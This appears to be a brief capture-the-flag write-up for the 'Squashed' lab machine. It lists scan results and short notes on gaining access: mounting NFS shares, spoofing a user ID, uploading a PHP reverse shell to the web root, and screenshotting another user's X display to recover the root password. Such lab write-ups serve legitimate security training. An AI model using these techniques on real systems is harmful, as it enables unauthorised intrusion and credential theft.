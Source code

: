 # Squashed

| Name      | IP           | Difficulty | OS    |
| ------ | ------------ | ---------- | ----- |
| squashed | 10.10.11.191 | Easy       | Linux |

## NMAP

| HOST         | PORT | PROTO | SERVICE      | VERSION                 |
| ------------ | ---- | ----- | ------------ | ----------------------- |
| 10.10.11.191 | 111  | tcp   | nfs          | 2-4                     |
| 10.10.11.191 | 2049 | tcp   | nfs          | 3-4                     |
| 10.10.11.191 | 22   | tcp   | OpenSSH      | 8.2p1 Ubuntu 4ubuntu0.5 |
| 10.10.11.191 | 80   | tcp   | Apache httpd | 2.4.41                  |

## HEADERS

```
HTTP/1.1 200 OK
Date: Wed, 05 Jul 2023 22:56:30 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Tue, 27 Dec 2022 15:35:01 GMT
ETag: "7f14-5f0d0fec87768"
Accept-Ranges: bytes   
Content-Length: 32532
Vary: Accept-Encoding
Content-Type: text/html
```

## DIRECTORIES

- /home/ross 
- /var/www/html

## USERS


## NOTES

- `shomount -e 10.10.11.191`
- /home/ross    
- /var/www/html 
- mount ross directory `sudo mount -t nfs 10.10.11.191:/home/ross /tmp/mnt -nolock`
- nothing
- cant mount ``/var/www/html`
- add new user that can access it
````
sudo useradd ross
sudo usermod -u 2017 ross
sudo groupmod -g 2017
su ross
````
- directory is writable and the site runs php
- Upload PHP reverse shell and get shell as alex
- open webserver as ross and download .Xauthority as alex
- `XAUTHORITY=/tmp/.Xauthority xwd -root -screen -silent -display :0 > /tmp/out.xwd
- move it to `/var/www/html`
- mount it and move it out 
- use the password in the screenshot
- `su -`
